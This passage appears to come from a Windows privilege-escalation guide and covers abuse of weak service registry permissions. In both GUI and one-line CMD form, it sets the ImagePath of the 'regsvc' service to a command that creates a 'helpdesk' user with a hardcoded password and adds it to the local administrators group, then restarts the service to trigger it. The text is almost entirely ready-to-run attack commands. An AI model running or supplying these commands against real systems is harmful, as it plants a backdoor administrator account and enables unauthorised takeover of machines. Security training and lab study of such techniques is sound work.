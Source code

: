 3. **Start a Service:**

   Finally, start the `regsvc` service (Remote Registry service) with this command:

   ```bash
   sc start regsvc
   ```

---

**GUI Steps:**

1. **Open Registry Editor:**

   - Press **⊞ Win + R**, type `regedit`, and press **Enter**.

2. **Navigate to Service Key:**

   `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc`

3. **Edit `ImagePath`:**

   - Right-click `ImagePath` and select **Modify**.
   - Change the value to:

     ```bash
     cmd.exe /c net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add
     ```

4. **Restart Service:**

   ```bash
   sc stop regsvc
   sc start regsvc
   ```

**CMD Steps:**

1. **Modify the Registry Using a One-Liner Command:**
   - Run the following command to change the `ImagePath` in the registry:

     ```bash
     reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc" /t REG_EXPAND_SZ /v ImagePath /d "cmd.exe /c net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add" /f
     ```

2. **Restart the `regsvc` Service:**
   - Run the following commands to restart the service:

     ```bash
     sc stop regsvc
     sc start regsvc
     ```

---

### File Permission Service
